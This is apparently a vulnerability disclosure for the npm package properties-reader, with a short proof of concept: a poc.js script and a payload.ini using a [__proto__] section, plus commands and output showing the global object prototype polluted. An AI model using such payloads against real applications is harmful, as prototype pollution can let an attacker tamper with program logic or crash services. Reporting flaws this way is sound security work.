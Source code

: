 # Description

`properties-reader` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC and INI files:

```
// poc.js
var propertiesReader = require('properties-reader');
console.log("Before : " + {}.polluted)
console.log("Before : " + {}.polluted1)
var properties = propertiesReader('./payload.ini');
properties.set("__proto__.polluted1", "Yes! Its Polluted1");
console.log("After : " + {}.polluted)
console.log("After : " + {}.polluted1)

//payload.ini
[__proto__]
polluted = "Yes! Its Polluted"
```


2. Execute the following commands in terminal:

```
npm i properties-reader # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
Before : undefined
After : "Yes! Its Polluted"
After : Yes! Its Polluted1
```
